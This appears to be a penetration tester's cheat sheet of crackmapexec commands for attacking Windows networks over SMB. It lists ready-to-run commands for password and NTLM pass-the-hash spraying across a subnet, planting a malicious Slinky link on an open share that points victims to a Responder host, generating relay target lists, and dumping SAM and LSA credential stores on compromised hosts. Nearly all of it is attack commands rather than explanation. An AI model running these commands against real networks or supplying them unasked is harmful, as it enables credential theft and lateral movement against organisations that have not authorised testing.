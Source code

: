 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Spray the network using SMB with domain credentials:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~

Spray the network using SMB with a local user and NTLM hash:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~

Use the Slinky SMB module to set up a malicious link on an unauthenticated share:
~~~bash
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~

Generate a SMB target list:
~~~bash
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

Spray a target list with a local admin's hashed NTLM credentials:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump SAM (LOCAL) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump LSA (Domain/Cached) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

Generate a Relay list based upon prior scan results and tee the command output to a new file:
~~~bash
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~